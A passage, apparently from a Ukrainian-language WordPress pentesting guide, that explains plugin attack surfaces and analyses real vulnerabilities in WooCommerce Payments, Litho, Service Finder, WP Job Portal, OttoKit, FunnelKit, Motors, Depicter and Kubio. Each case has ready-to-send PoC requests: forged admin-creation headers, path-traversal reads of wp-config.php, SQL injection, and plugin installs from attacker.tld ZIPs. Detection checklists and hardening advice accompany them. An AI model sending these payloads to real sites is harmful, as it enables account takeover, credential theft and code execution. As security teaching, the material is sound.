curl -s https://target.example/wp-json/ | jq -r '.routes | keys[]' | grep -Ei 'upload|file|wp-sec'
grep -RniE 'register_rest_route|move_uploaded_file|file_put_contents|fopen|copy|ABSPATH|WPMU_PLUGIN_DIR' wp-content/mu-plugins
```

Високосигнальні артефакти включають нову директорію `mu-plugins`, реєстрації REST, у яких `permission_callback` порівнює дані запиту із вбудованими секретами, шляхи призначення, сформовані на основі даних клієнта, інсталятори, що видаляють себе, а також успішний запит `POST /wp-json/<namespace>/<route>`, за яким іде запит до щойно створеного PHP-файлу. Також перевіряйте невеликі файли стану, доступні для запису, у яких зберігається URL payload або перемикач `off`: окремий контролер може змінювати інфраструктуру або вмикати й вимикати впроваджений вміст, не замінюючи основний плагін. Неочікувана деактивація плагіна кешування або видалення `WP_CACHE` можуть використовуватися, щоб динамічна приманка стабільно відображалася.<sup>[[31]](#references)</sup>

Про етап доставки на боці клієнта, який часто супроводжує цю компрометацію, див. [Clipboard Hijacking / ClickFix](../../generic-methodologies-and-resources/phishing-methodology/clipboard-hijacking.md) та [PowerShell download-and-execute](../../windows-hardening/basic-powershell-for-pentesters/README.md#download--execute).

## Pentesting плагінів WordPress

### Поверхня атаки

Розуміння того, як плагін WordPress надає доступ до функціональності, має вирішальне значення під час аудиту його поверхні атаки. Нижче наведено типові точки входу, а вразливі приклади обговорюються в дослідженні за посиланням.<sup>[[18]](#references)</sup>

- **`wp_ajax`**

Плагіни можуть надавати доступ до серверних функцій через обробники AJAX. У цих callback-функціях можуть бути помилки логіки, автентифікації або авторизації. Типова помилка — вважати наявність nonce WordPress доказом того, що викликач має дозвіл на виконання дії.

Нижче наведено функції, за допомогою яких можна надати доступ до функції плагіна:

```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```

**Реєстрація хука `wp_ajax_nopriv_` робить callback доступним для неавтентифікованих користувачів.**

> [!CAUTION]
> `wp_verify_nonce()` перевіряє обмежений у часі CSRF-токен, пов’язаний із дією та контекстом користувача; він **не** авторизує дію й сам по собі не доводить, що користувач має певну роль. Поєднуйте перевірку nonce із відповідною перевіркою capability, наприклад `current_user_can()`.<sup>[[27]](#references)</sup>

- **REST API**

Плагіни також можуть надавати функції через REST API за допомогою виклику `register_rest_route()`:

```php
register_rest_route(
    $this->namespace, '/get/', array(
        'methods' => WP_REST_Server::READABLE,
        'callback' => array($this, 'getData'),
        'permission_callback' => '__return_true'
    )
);
```

`permission_callback` — це callback-функція, яка перевіряє, чи має певний користувач право викликати метод API.

**Якщо використовується вбудована функція `__return_true`, перевірка дозволів користувача просто пропускається.**

- **Прямий доступ до PHP-файлу**

WordPress використовує PHP, а конфігурація вебсервера часто дає змогу напряму звертатися до файлів у каталогах плагінів. Тому файл плагіна, який виконує конфіденційні операції під час прямого запиту, не перевіряючи авторизацію WordPress і не відхиляючи прямий доступ, може надавати цю функціональність неавтентифікованим користувачам.

### Імітація користувача через довірений заголовок REST (WooCommerce Payments ≤ 5.6.1)

Деякі плагіни реалізують обхідні механізми з «довіреним заголовком» для внутрішніх інтеграцій або зворотних проксі, а потім використовують цей заголовок, щоб задати контекст поточного користувача для REST-запитів. Якщо компонент на upstream-рівні не прив’язує цей заголовок до запиту криптографічно, зловмисник може підробити його й викликати привілейовані REST-маршрути від імені адміністратора.<sup>[[6]](#references)[[7]](#references)</sup>

- Вплив: підвищення привілеїв до адміністратора без автентифікації шляхом створення нового адміністратора через базовий REST-маршрут users.
- Приклад заголовка: `X-Wcpay-Platform-Checkout-User: 1` (встановлює ID користувача 1, зазвичай це перший обліковий запис адміністратора).
- Експлуатований маршрут: `POST /wp-json/wp/v2/users` із масивом ролей із підвищеними привілеями.

PoC

```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```

Чому це працює

- Плагін зіставляє заголовок, контрольований клієнтом, зі станом автентифікації та пропускає перевірки capabilities.
- Ядро WordPress перевіряє відповідні capabilities для створення користувачів у цьому маршруті; вразливий плагін обходить передбачену межу автентифікації, безпосередньо встановлюючи контекст поточного користувача на основі заголовка.

Очікувані ознаки успіху

- HTTP 201 із JSON-тілом, що містить опис створеного користувача.
- Новий користувач-адміністратор відображається в `wp-admin/users.php`.

Контрольний список для виявлення

- Шукайте `getallheaders()`, `$_SERVER['HTTP_...']` або SDK постачальників, які читають користувацькі заголовки для встановлення контексту користувача (наприклад, `wp_set_current_user()`, `wp_set_auth_cookie()`).
- Перевірте реєстрації REST на наявність привілейованих callback-функцій без надійних перевірок `permission_callback`, які натомість покладаються на заголовки запитів.
- Шукайте використання основних функцій керування користувачами (`wp_insert_user`, `wp_create_user`) в обробниках REST, доступ до яких обмежений лише значеннями заголовків.

### Неавтентифіковане довільне видалення файлів через wp_ajax_nopriv (тема Litho <= 3.0)

Теми й плагіни WordPress часто надають доступ до AJAX-обробників через хуки `wp_ajax_` та `wp_ajax_nopriv_`. Коли використовується варіант **_nopriv_**, callback стає доступним неавтентифікованим відвідувачам, тому будь-яка чутлива дія має додатково реалізовувати:

1. Перевірку capability (наприклад, `current_user_can()` або принаймні `is_user_logged_in()`), і
2. CSRF nonce, перевірений за допомогою `check_ajax_referer()` / `wp_verify_nonce()`, і
3. Сувору санітизацію / валідацію вхідних даних.

У темі Litho для різних цілей (< 3.1) у функції *Remove Font Family* не було цих 3 засобів захисту, тож у ній опинився такий код (спрощено):<sup>[[1]](#references)</sup>

```php
function litho_remove_font_family_action_data() {
    if ( empty( $_POST['fontfamily'] ) ) {
        return;
    }
    $fontfamily = str_replace( ' ', '-', $_POST['fontfamily'] );
    $upload_dir = wp_upload_dir();
    $srcdir  = untrailingslashit( wp_normalize_path( $upload_dir['basedir'] ) ) . '/litho-fonts/' . $fontfamily;
    $filesystem = Litho_filesystem::init_filesystem();

    if ( file_exists( $srcdir ) ) {
        $filesystem->delete( $srcdir, FS_CHMOD_DIR );
    }
    die();
}
add_action( 'wp_ajax_litho_remove_font_family_action_data',        'litho_remove_font_family_action_data' );
add_action( 'wp_ajax_nopriv_litho_remove_font_family_action_data', 'litho_remove_font_family_action_data' );
```

Проблеми, спричинені цим фрагментом:

* **Неавтентифікований доступ** — зареєстровано хук `wp_ajax_nopriv_`.
* **Немає перевірки nonce / capability** — будь-який відвідувач може звернутися до endpoint.
* **Немає санітизації шляху** — рядок `fontfamily`, контрольований користувачем, додається до шляху файлової системи без фільтрації, що дозволяє виконати класичний обхід каталогів через `../../`.

#### Експлуатація

Обхід каталогів дає змогу зловмиснику вийти за межі призначеного каталогу `litho-fonts` і видаляти файли, доступні для запису обліковому запису PHP/вебсервера. У типовій структурі такий запит націлений на `wp-config.php`:

```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
     -d 'action=litho_remove_font_family_action_data' \
     -d 'fontfamily=../../../wp-config.php'
```

З `<wp-root>/wp-content/uploads/litho-fonts/` три послідовності `../` ведуть до кореня WordPress. Необхідна глибина залежить від налаштованого шляху завантаження файлів. Видалення `wp-config.php` спричиняє збій і може відкрити процес повторного налаштування/встановлення; перетворення цього на захоплення додатково залежить від дозволів файлової системи та можливості зловмисника вказати доступну конфігурацію бази даних.

Інші цілі з серйозними наслідками — файли `.php` плагінів/тем (щоб вивести з ладу плагіни безпеки) або правила `.htaccess`.

#### Контрольний список для виявлення

* Будь-який callback `add_action( 'wp_ajax_nopriv_...')`, який викликає допоміжні функції файлової системи (`copy()`, `unlink()`, `$wp_filesystem->delete()` тощо).
* Конкатенація неочищених даних користувача зі шляхами (шукайте `$_POST`, `$_GET`, `$_REQUEST`).
* Відсутність `check_ajax_referer()` і `current_user_can()`/`is_user_logged_in()`.

---

### Privilege escalation через відновлення застарілих ролей і відсутність авторизації (ASE «View Admin as Role»)

Багато плагінів реалізують функцію «перегляду від імені ролі» або тимчасового перемикання ролей, зберігаючи початкові ролі в user meta, щоб пізніше їх можна було відновити. Якщо під час відновлення перевіряються лише параметри запиту (наприклад, `$_REQUEST['reset-for']`) і список, який веде плагін, без перевірки дозволів і чинного nonce, це призводить до вертикального підвищення привілеїв.

Реальний приклад виявили в плагіні Admin and Site Enhancements (ASE) (≤ 7.6.2.1). Гілка скидання відновлювала ролі на основі `reset-for=<username>`, якщо ім’я користувача було в внутрішньому масиві `$options['viewing_admin_as_role_are']`, але перед видаленням поточних ролей і повторним додаванням збережених у user meta `_asenha_view_admin_as_original_roles` ролей не виконувала ані перевірку `current_user_can()`, ані перевірку nonce:<sup>[[3]](#references)[[4]](#references)</sup>

```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
    $reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
    $usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

    if ( in_array( $reset_for_username, $usernames, true ) ) {
        $u = get_user_by( 'login', $reset_for_username );
        foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
        $orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
        foreach ( $orig as $r ) { $u->add_role( $r ); }
    }
}
```

Чому це вразливе до експлуатації

- Довіряє `$_REQUEST['reset-for']` і параметру плагіна без серверної авторизації.
- Якщо раніше користувач мав вищі привілеї, збережені в `_asenha_view_admin_as_original_roles`, а потім їх було знижено, він може відновити їх, перейшовши за reset-шляхом.
- У деяких конфігураціях будь-який автентифікований користувач може запустити скидання для іншого імені користувача, яке досі є в `viewing_admin_as_role_are` (порушена авторизація).

Exploitation (приклад)

```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
  'https://victim.example/wp-admin/?reset-for=<your_username>'
```

У вразливих збірках це видаляє поточні ролі та повторно додає збережені початкові ролі (наприклад, `administrator`), фактично підвищуючи привілеї.

Контрольний список виявлення

- Шукайте функції перемикання ролей, які зберігають «початкові ролі» в метаданих користувача (наприклад, `_asenha_view_admin_as_original_roles`).
- Визначте шляхи скидання/відновлення, які:
  - Читають імена користувачів із `$_REQUEST` / `$_GET` / `$_POST`.
  - Змінюють ролі через `add_role()` / `remove_role()` без `current_user_can()` і `wp_verify_nonce()` / `check_admin_referer()`.
  - Авторизують дію на основі масиву параметрів плагіна (наприклад, `viewing_admin_as_role_are`), а не можливостей користувача, який виконує дію.

---

### Неавтентифіковане підвищення привілеїв через перемикання користувача з довірою до cookie на публічному хуку init (Service Finder «sf-booking»)

У деяких плагінах допоміжні функції перемикання користувачів підключаються до публічного хука `init` та визначають особу за cookie, контрольованою клієнтом. Якщо код викликає `wp_set_auth_cookie()` без перевірки автентифікації, можливостей і дійсного nonce, будь-який неавтентифікований відвідувач може примусово ввійти в систему як довільний користувач за ID.

Типовий вразливий шаблон (спрощено з Service Finder Bookings ≤ 6.1):<sup>[[8]](#references)[[9]](#references)</sup>

```php
function service_finder_submit_user_form(){
    if ( isset($_GET['switch_user']) && is_numeric($_GET['switch_user']) ) {
        $user_id = intval( sanitize_text_field($_GET['switch_user']) );
        service_finder_switch_user($user_id);
    }
    if ( isset($_GET['switch_back']) ) {
        service_finder_switch_back();
    }
}
add_action('init', 'service_finder_submit_user_form');

function service_finder_switch_back() {
    if ( isset($_COOKIE['original_user_id']) ) {
        $uid = intval($_COOKIE['original_user_id']);
        if ( get_userdata($uid) ) {
            wp_set_current_user($uid);
            wp_set_auth_cookie($uid);  // 🔥 sets auth for attacker-chosen UID
            do_action('wp_login', get_userdata($uid)->user_login, get_userdata($uid));
            setcookie('original_user_id', '', time() - 3600, '/');
            wp_redirect( admin_url('admin.php?page=candidates') );
            exit;
        }
        wp_die('Original user not found.');
    }
    wp_die('No original user found to switch back to.');
}
```

Чому це можна експлуатувати

- Загальнодоступний хук `init` робить обробник доступним для неавтентифікованих користувачів (без перевірки `is_user_logged_in()`).
- Ідентифікація ґрунтується на cookie, яке клієнт може змінити (`original_user_id`).
- Прямий виклик `wp_set_auth_cookie($uid)` авторизує запитувача як цього користувача без перевірки прав чи nonce.

Експлуатація (без автентифікації)

```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```

---

### Особливості WAF для CVE у WordPress/плагінах

Універсальні WAF на периферії мережі або сервері налаштовані на виявлення широких шаблонів (SQLi, XSS, LFI). Багато критичних вразливостей WordPress/плагінів — це специфічні для застосунку логічні помилки або помилки автентифікації, які виглядають як звичайний трафік, якщо рушій не розуміє маршрути WordPress і семантику плагінів.<sup>[[5]](#references)[[11]](#references)</sup>

Наступальні примітки

- Націлюйтеся на специфічні для плагінів кінцеві точки з чистими payload: `admin-ajax.php?action=...`, `wp-json/<namespace>/<route>`, власні обробники файлів, shortcodes.
- Спочатку перевіряйте шляхи без автентифікації (AJAX `nopriv`, REST із permissive `permission_callback`, публічні shortcodes). Типові payload часто спрацьовують без обфускації.
- Типові критичні випадки: підвищення привілеїв (порушення контролю доступу), довільне завантаження/завантаження файлів, LFI, open redirect.

Захисні примітки

- Не покладайтеся на універсальні сигнатури WAF для захисту від CVE у плагінах. Впроваджуйте віртуальні патчі на рівні застосунку, специфічні для вразливостей, або оперативно оновлюйтеся.
- Віддавайте перевагу перевіркам позитивної безпеки в коді (capabilities, nonces, сувора валідація введених даних), а не фільтрам на основі негативних регулярних виразів.

## Захист WordPress

### Регулярні оновлення

Оновлюйте ядро WordPress, плагіни та теми; використовуйте staging і резервні копії відповідно до розгортання. Оновлення ядра можна налаштувати у `wp-config.php`:

```bash
define( 'WP_AUTO_UPDATE_CORE', true );
```

Фільтри оновлення плагінів і тем слід розміщувати в плагіні — бажано в must-use plugin, — а не безпосередньо у `wp-config.php`, оскільки там WordPress ще не повністю завантажений:<sup>[[28]](#references)</sup>

```php
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```

Встановлюйте лише надійні плагіни й теми WordPress, які підтримуються, та видаляйте компоненти, які більше не потрібні.<sup>[[29]](#references)</sup>

### Плагіни безпеки

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Інші рекомендації**

- Перейменуйте або видаліть передбачуваний застарілий обліковий запис **admin**, попередньо переконавшись, що існує інший адміністратор; сама зміна імені користувача не є основним захистом.
- Використовуйте **надійні унікальні паролі** та **2FA**.
- Періодично перевіряйте користувачів і їхні можливості.
- Обмежуйте частоту спроб входу та відстежуйте спроби підбору паролів.
- За потреби обмежуйте доступ до `/wp-login.php` і важливих маршрутів `/wp-admin/` за мережею або додатковим рівнем автентифікації. Не перейменовуйте неіснуючий основний файл `wp-admin.php` і враховуйте необхідні загальнодоступні кінцеві точки, як-от `wp-admin/admin-ajax.php`.<sup>[[29]](#references)</sup>

### SQL Injection без автентифікації через недостатню перевірку даних (WP Job Portal <= 2.3.2)

Плагін для рекрутингу WP Job Portal містив задачу **savecategory**, яка зрештою виконує наведений нижче вразливий код у `modules/category/model.php::validateFormData()`:<sup>[[2]](#references)</sup>

```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
    $inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
        . wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```

Проблеми, спричинені цим фрагментом:

1. **Неочищене введення користувача** — `parentid` надходить безпосередньо з HTTP-запиту.
2. **Конкатенація рядків у клаузі WHERE** — немає `is_numeric()` / `esc_sql()` / підготовленого запиту.
3. **Доступність без автентифікації** — хоча дія виконується через `admin-post.php`, єдина перевірка — це **CSRF nonce** (`wp_verify_nonce()`), який будь-який відвідувач може отримати з публічної сторінки, що містить shortcode `[wpjobportal_my_resumes]`.

#### Exploitation

1. Отримайте свіжий nonce:
   ```bash
   curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
   ```
2. Впровадити довільний SQL через зловживання `parentid`:
   ```bash
   curl -X POST https://victim.com/wp-admin/admin-post.php \
        -d 'task=savecategory' \
        -d '_wpnonce=<nonce>' \
        -d 'parentid=0 OR 1=1-- -' \
        -d 'cat_title=pwn' -d 'id='
   ```
   Підтвердьте injection за поведінкою відповіді, задокументованою для відповідної версії (наприклад, за контрольованою різницею на основі boolean або часу); цей шлях запиту сам по собі не виводить довільно вибрані стовпці.

### Неавтентифіковане завантаження довільних файлів / Path Traversal (WP Job Portal <= 2.3.2)

Інше завдання, **downloadcustomfile**, дозволяло відвідувачам завантажувати **будь-який файл із диска** за допомогою path traversal. Уразлива точка розташована в `modules/customfield/model.php::downloadCustomUploadedFile()`:<sup>[[2]](#references)</sup>

```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```

`$file_name` контролюється зловмисником і конкатенується **без санітизації**. Знову ж таки, єдиним бар’єром є **CSRF nonce**, який можна отримати зі сторінки резюме.

#### Експлуатація

```bash
curl -G https://victim.com/wp-admin/admin-post.php \
     --data-urlencode 'task=downloadcustomfile' \
     --data-urlencode '_wpnonce=<nonce>' \
     --data-urlencode 'upload_for=resume' \
     --data-urlencode 'entity_id=1' \
     --data-urlencode 'file_name=../../../wp-config.php'
```
Сервер повертає вміст `wp-config.php`, унаслідок чого відбувається leak облікових даних DB і ключів автентифікації.

## Захоплення облікового запису без автентифікації через fallback AJAX Social Login (тема Jobmonster <= 4.7.9)

Багато тем і плагінів містять допоміжні засоби для «соціального входу», доступні через admin-ajax.php. Якщо неавтентифікована AJAX action (wp_ajax_nopriv_...) довіряє ідентифікаторам, наданим клієнтом, коли дані провайдера відсутні, а потім викликає wp_set_auth_cookie(), це призводить до повного обходу автентифікації.<sup>[[10]](#references)</sup>

Типовий помилковий шаблон (спрощено)

```php
public function check_login() {
    // ... request parsing ...
    switch ($_POST['using']) {
        case 'fb':     /* set $user_email from verified Facebook token */ break;
        case 'google': /* set $user_email from verified Google token   */ break;
        // other providers ...
        default: /* unsupported/missing provider – execution continues */ break;
    }

    // FALLBACK: trust POSTed "id" as email if provider data missing
    $user_email = !empty($user_email)
        ? $user_email
        : (!empty($_POST['id']) ? esc_attr($_POST['id']) : '');

    if (empty($user_email)) {
        wp_send_json(['status' => 'not_user']);
    }

    $user = get_user_by('email', $user_email);
    if ($user) {
        wp_set_auth_cookie($user->ID, true); // 🔥 logs requester in as that user
        wp_send_json(['status' => 'success', 'message' => 'Login successfully.']);
    }
    wp_send_json(['status' => 'not_user']);
}
// add_action('wp_ajax_nopriv_<social_login_action>', [$this, 'check_login']);
```

Чому це можна експлуатувати

- Неавтентифікований доступ через admin-ajax.php (дія wp_ajax_nopriv_…).
- Перед зміною стану немає перевірок nonce/capability.
- Відсутня перевірка OAuth/OpenID-провайдера; гілка за замовчуванням приймає введені зловмисником дані.
- get_user_by('email', $_POST['id']), після чого wp_set_auth_cookie($uid), автентифікує запитувача як будь-яку наявну адресу електронної пошти.

Експлуатація (без автентифікації)

- Передумови: зловмисник має доступ до /wp-admin/admin-ajax.php і знає або може вгадати дійсну адресу електронної пошти користувача.
- Укажіть для provider непідтримуване значення (або не передавайте його), щоб потрапити в гілку за замовчуванням, і передайте id=<victim_email>.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Content-Type: application/x-www-form-urlencoded

action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com
```

```bash
curl -i -s -X POST https://victim.tld/wp-admin/admin-ajax.php \
  -d "action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com"
```

Очікувані ознаки успіху

- HTTP 200 із JSON-тілом на кшталт {"status":"success","message":"Login successfully."}.
- Set-Cookie: wordpress_logged_in_* для користувача-жертви; наступні запити автентифіковані.

Пошук назви action

- Перевірте тему/плагін на реєстрації add_action('wp_ajax_nopriv_...', '...') у коді social login (наприклад, framework/add-ons/social-login/class-social-login.php).
- Виконайте grep для wp_set_auth_cookie(), get_user_by('email', ...) в обробниках AJAX.

Контрольний список для виявлення

- Вебжурнали показують неавтентифіковані запити `POST` до `/wp-admin/admin-ajax.php` із action для social login та `id=<email>`.
- Відповіді 200 із JSON про успіх безпосередньо перед автентифікованим трафіком із тієї самої IP-адреси/User-Agent.

Захист

- Не визначайте особу на основі даних, які надіслав клієнт. Приймайте лише email/ID, отримані з перевіреного токена провайдера.
- Вимагайте CSRF nonce і перевірки прав навіть для допоміжних функцій входу; не реєструйте wp_ajax_nopriv_, якщо це не обов’язково.
- Перевіряйте відповіді OAuth/OIDC на стороні сервера; відхиляйте відсутніх/недійсних провайдерів (не використовуйте POST id як запасний варіант).
- Розгляньте можливість тимчасово вимкнути social login або застосувати віртуальний патч на периметрі (заблокувати вразливий action), доки проблему не буде усунуто.

Виправлена поведінка (Jobmonster 4.8.0)

- Видалено небезпечний запасний варіант із $_POST['id']; $user_email має надходити з перевірених гілок провайдерів у switch($_POST['using']).

## Ескалація привілеїв без автентифікації через створення REST-токена/ключа на основі передбачуваних даних користувача (OttoKit/SureTriggers ≤ 1.0.82)

Деякі плагіни надають REST endpoints, які створюють багаторазові «ключі з’єднання» або токени, не перевіряючи права викликувача. Якщо маршрут автентифікує запит лише за атрибутом, який можна вгадати (наприклад, ім’ям користувача), і не прив’язує ключ до користувача/сеансу з перевіркою прав, будь-який неавтентифікований зловмисник може створити ключ і виконувати привілейовані дії (створення облікового запису адміністратора, дії плагіна → RCE).<sup>[[12]](#references)</sup>

- Вразливий маршрут (приклад): sure-triggers/v1/connection/create-wp-connection
- Недолік: приймає ім’я користувача та видає ключ з’єднання без current_user_can() або суворого permission_callback
- Вплив: повне захоплення системи через використання створеного ключа для внутрішніх привілейованих дій

PoC — створення ключа з’єднання та його використання

```bash
# 1) Obtain key (unauthenticated). Exact payload varies per plugin
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/connection/create-wp-connection" \
  -H 'Content-Type: application/json' \
  --data '{"username":"admin"}'
# → {"key":"<conn_key>", ...}

# 2) Call privileged plugin action using the minted key (namespace/route vary per plugin)
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/users" \
  -H 'Content-Type: application/json' \
  -H 'X-Connection-Key: <conn_key>' \
  --data '{"username":"pwn","email":"p@t.ld","password":"p@ss","role":"administrator"}'
```

Чому це можна експлуатувати
- Чутливий REST-маршрут захищено лише доказом особи з низькою ентропією (ім’ям користувача) або в ньому відсутній permission_callback
- Перевірка capability відсутня; виданий ключ приймається як універсальний спосіб обходу

Чекліст виявлення
- Шукайте в коді плагіна register_rest_route(..., [ 'permission_callback' => '__return_true' ])
- Будь-який маршрут, який видає токени/ключі на основі ідентифікатора, переданого в запиті (ім’я користувача/електронна пошта), не прив’язуючи його до автентифікованого користувача чи capability
- Шукайте подальші маршрути, які приймають виданий токен/ключ без серверної перевірки capability

Посилення захисту
- Для будь-якого привілейованого REST-маршруту: вимагайте permission_callback, який перевіряє current_user_can() для потрібної capability
- Не видавайте довготривалі ключі на основі ідентифікатора, наданого клієнтом; за потреби після автентифікації видавайте короткострокові токени, прив’язані до користувача, і повторно перевіряйте capabilities під час використання
- Перевіряйте контекст користувача, який виконує запит (`wp_set_current_user` сам по собі недостатній), і відхиляйте запити, якщо `!is_user_logged_in() || !current_user_can(<cap>)`.

---

## Неправильне використання nonce gate → неавтентифіковане довільне встановлення плагінів (FunnelKit Automations ≤ 3.5.3)

Nonce захищають від CSRF, а не забезпечують авторизацію. Якщо код сприймає успішну перевірку nonce як дозвіл на виконання операції, а потім пропускає перевірки capability для привілейованих дій (наприклад, встановлення/активації плагінів), неавтентифіковані зловмисники можуть пройти слабку перевірку nonce і досягти RCE, встановивши плагін із бекдором або вразливий плагін.<sup>[[13]](#references)</sup>

- Вразливий шлях: plugin/install_and_activate
- Помилка: слабка перевірка хешу nonce; після успішної перевірки nonce немає current_user_can('install_plugins'|'activate_plugins')
- Наслідок: повна компрометація через довільне встановлення/активацію плагіна

PoC (формат залежить від плагіна; лише для ілюстрації)

```bash
curl -i -s -X POST https://victim.tld/wp-json/<fk-namespace>/plugin/install_and_activate \
  -H 'Content-Type: application/json' \
  --data '{"_nonce":"<weak-pass>","slug":"hello-dolly","source":"https://attacker.tld/mal.zip"}'
```

Список перевірки
- Обробники REST/AJAX, які змінюють плагіни/теми, використовуючи лише wp_verify_nonce()/check_admin_referer() і не перевіряючи можливості
- Будь-який шлях виконання коду, який встановлює $skip_caps = true після перевірки nonce

Посилення захисту
- Завжди розглядайте nonces лише як CSRF-токени; перевіряйте можливості незалежно від стану nonce
- Вимагайте current_user_can('install_plugins') і current_user_can('activate_plugins') перед переходом до коду інсталятора
- Відхиляйте неавтентифіковані запити; не відкривайте AJAX-дії nopriv для привілейованих сценаріїв

### AJAX-інсталятор плагіна для Subscriber+ → примусова активація шкідливого плагіна (Motors Theme ≤ 5.6.81)

[Аналіз Patchstack](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/) показав, що тема Motors містить автентифікований AJAX-хелпер для інсталяції супутнього плагіна:<sup>[[16]](#references)</sup>

```php
add_action('wp_ajax_mvl_theme_install_base', 'mvl_theme_install_base');

function mvl_theme_install_base() {
    check_ajax_referer('mvl_theme_install_base', 'nonce');

    $plugin_url  = sanitize_text_field($_GET['plugin']);
    $plugin_slug = 'motors-car-dealership-classified-listings';

    $upgrader = new Plugin_Upgrader(new Motors_Theme_Plugin_Upgrader_Skin(['plugin' => $plugin_slug]));
    $upgrader->install($plugin_url);
    mvl_theme_activate_plugin($plugin_slug);
}
```

- Викликається лише `check_ajax_referer()`; перевірок `current_user_can('install_plugins')` або `current_user_can('activate_plugins')` немає.
- Nonce вбудований в адмінсторінку Motors, тому будь-який Subscriber, який може відкрити `/wp-admin/`, може скопіювати його з HTML/JS.
- Обробник довіряє контрольованому зловмисником параметру `plugin` (зчитаному з `$_GET`) і передає його в `Plugin_Upgrader::install()`, тож довільний віддалений ZIP завантажується в `wp-content/plugins/`.
- Після встановлення тема безумовно викликає `mvl_theme_activate_plugin()`, гарантуючи виконання PHP-коду плагіна зловмисника.

#### Хід експлуатації

1. Зареєструйте або скомпрометуйте обліковий запис із низькими привілеями (достатньо ролі Subscriber) і отримайте nonce `mvl_theme_install_base` з інтерфейсу панелі керування Motors.
2. Створіть ZIP плагіна, у якому кореневий каталог має очікувану назву `motors-car-dealership-classified-listings/`, і додайте бекдор або вебшелл у файли точок входу `*.php`.
3. Розмістіть ZIP і запустіть інсталятор, передавши обробнику URL вашого архіву:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Cookie: wordpress_logged_in_=...
Content-Type: application/x-www-form-urlencoded

action=mvl_theme_install_base&nonce=<leaked_nonce>&plugin=https%3A%2F%2Fattacker.tld%2Fmotors-car-dealership-classified-listings.zip
```

Оскільки обробник читає `$_GET['plugin']`, той самий payload також можна передати через query string.

#### Перелік перевірок

- Шукайте в темах/плагінах `Plugin_Upgrader`, `Theme_Upgrader` або власні допоміжні засоби `install_plugin.php`, прив’язані до хуків `wp_ajax_*` без перевірки прав.
- Перевіряйте всі обробники, які приймають параметр `plugin`, `package`, `source` або `url` і передають його в API upgrader, особливо якщо slug задано жорстко, а вміст ZIP не перевіряється.
- Переглядайте сторінки адміністратора, на яких доступні nonces для дій інсталятора: якщо сторінку можуть завантажити підписники, вважайте, що nonce може витекти.

#### Посилення захисту

- Після перевірки nonce обмежуйте AJAX-callbacks інсталятора за допомогою `current_user_can('install_plugins')` і `current_user_can('activate_plugins')`; у Motors 5.6.82 цю перевірку додали, щоб виправити помилку.
- Відхиляйте недовірені URL: обмежте інсталятори вбудованими ZIP-архівами або довіреними репозиторіями чи вимагайте підписані маніфести завантаження.
- Розглядайте nonces лише як CSRF-токени: вони не надають прав доступу й не повинні замінювати перевірки прав.

---

## Неавтентифікована SQLi через параметр пошуку s у діях depicter-* (Depicter Slider ≤ 3.6.1)

Кілька дій depicter-* використовували параметр s (пошук) і конкатенували його в SQL-запити без параметризації.<sup>[[14]](#references)</sup>

- Параметр: s (пошук)
- Вразливість: пряма конкатенація рядків у клаузах WHERE/LIKE; відсутність підготовлених запитів/санітизації
- Вплив: ексфільтрація даних бази даних (користувачі, хеші), латеральне переміщення

PoC

```bash
# Replace action with the affected depicter-* handler on the target
curl -G "https://victim.tld/wp-admin/admin-ajax.php" \
  --data-urlencode 'action=depicter_search' \
  --data-urlencode "s=' UNION SELECT user_login,user_pass FROM wp_users-- -"
```

Detection checklist
- Виконайте пошук depicter-* action handlers і прямого використання $_GET['s'] або $_POST['s'] у SQL
- Перевірте custom queries, передані в $wpdb->get_results()/query(), які конкатенують s

Hardening
- Завжди використовуйте $wpdb->prepare() або placeholders wpdb; відхиляйте неочікувані метасимволи на сервері
- Додайте строгий allowlist для s і нормалізуйте його до очікуваного кодування та довжини

---

## Неавтентифіковане Local File Inclusion через неперевірений шлях до template/file (Kubio AI Page Builder ≤ 2.5.1)

Якщо приймати контрольовані зловмисником шляхи в параметрі template без нормалізації чи обмеження шляхів, це дає змогу читати довільні локальні файли, а іноді й виконувати код, якщо PHP-файли чи log-файли, придатні для включення, завантажуються під час виконання.<sup>[[15]](#references)</sup>

- Параметр: __kubio-site-edit-iframe-classic-template
- Недолік: немає нормалізації чи allowlist; дозволений traversal
